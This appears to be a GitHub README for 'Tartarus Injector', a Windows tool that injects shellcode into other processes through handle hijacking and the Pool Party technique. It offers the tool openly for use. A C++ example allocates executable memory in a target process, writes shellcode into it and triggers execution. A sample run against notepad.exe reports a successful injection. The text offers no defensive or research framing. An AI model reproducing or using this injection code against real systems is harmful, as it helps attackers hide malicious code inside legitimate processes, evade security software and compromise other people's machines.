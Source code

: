 
# 💉🔥 Tartarus Injector

Native Shellcode Injector Via Handle Hijacking & Pool Party.


## 👁 Modular Examples

```cpp
// assuming you have obtained a handle on the process.

auto injector = Injector { process };

auto nWorkerMem = injector.allocateSc(sizeof(sc), PAGE_EXECUTE_READWRITE);

if (!nWorkerMem) {
    error("Failed To Allocate Memory.");
    return -1;
}
    

if (!injector.writeSc(nWorkerMem, sc, sizeof sc)) {
    error("Failed To Write Memory.");
    return -1;
}
    

if (!injector.injectIntoProcess(nWorkerMem)) {
    error("Injection Failed.");
    return -1;
}

okay("Injection Successful!");
```
## 🎡 Usage
```batch
$ ./TartarusInjector.exe notepad.exe
[*] Starting Tartarus Injector ...
[+] Found Object Of Type { IoCompletion }
[+] Injection Successful!
```
## ❓ Development & Contribution
I will be improving this injector once i need to, If you have anything to contribute or a bug fix, Open a pull request and i will merge it if it's legit.
